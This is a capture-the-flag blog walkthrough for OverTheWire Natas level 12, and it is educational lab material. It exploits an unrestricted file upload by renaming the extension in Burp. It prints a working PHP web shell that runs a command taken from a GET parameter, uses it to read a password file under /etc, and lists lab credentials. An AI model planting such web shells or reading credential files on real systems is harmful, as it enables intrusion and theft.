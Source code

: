 ```yaml
---
layout: post
title:  "Natas Level 12 → Level 13"
date: 2017-07-04
author: "Harsh Chawla"
tags: Overthewire Natas
---
```

<pre><h3><b>Level 12
Username : natas12
Password : EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
URL      : http://natas12.natas.labs.overthewire.org</b></h3></pre>
### Solution

To solve this level, we first log into the natas12 application using the credentials provided above.

As we can see, the application allows a user to upload JPEG files to the server with a maximum size of 1KB. I uploaded the following image to the server and the server responds back with the location of the file.

![Natas12-1](https://securitytimes.files.wordpress.com/2017/06/orange-sun-small-min.jpg?w=663)

Upon inspection of the source code and checking Burp logs, we can see that the application changes the filename to some random characters and sends it in a POST request to the server to upload the file.

![Natas12-2](https://securitytimes.files.wordpress.com/2017/06/6-26-2017-3-28-53-pm.png?w=663)

The file is uploaded at a random path using the function **makeRandomPath($dir, $ext)**. The application does not perform any checks on the filetype of the file and merely stores it in a random directory. Therefore, it seems like the application is vulnerable to '**Unrestricted File Upload**'. Let’s create a new php file and inject some code into it.

```php
<?php
$output = shell_exec('ls -lart');
echo "<pre>$output</pre>";
?>
```

The application changes the extension of the file to a jpg. To bypass this, we can intercept the request in Burp and change the filename to php. This would keep the extension intact while the file is uploaded on the server.

![Natas12-3](https://securitytimes.files.wordpress.com/2017/06/6-26-2017-3-53-03-pm.png?w=663)

After uploading, we can see that the application responds with a list of files and folder found in the upload folder as intended.

![Natas12-4](https://securitytimes.files.wordpress.com/2017/06/6-26-2017-3-50-06-pm.png?w=663)

Let’s modify the shellcode to take input from the user. We can then ask the file to print content of **/etc/natas_webpass/natas13**.

```php
<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>$output</pre>";
?>
```

The above shellcode would take a command from the GET variable cmd and print the output back to us. Let’s run the following command:
`http://natas12.natas.labs.overthewire.org/upload/pgfs4n9g3p.php?cmd=cat%20/etc/natas_webpass/natas13`, replace pgfs4n9g3p.php with the randomized filename generated by the application and Voila! the application responds with the password for the next level.

<pre><h3><b>Level 13
Username : natas13
Password : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
URL      : http://natas13.natas.labs.overthewire.org</b></h3></pre>

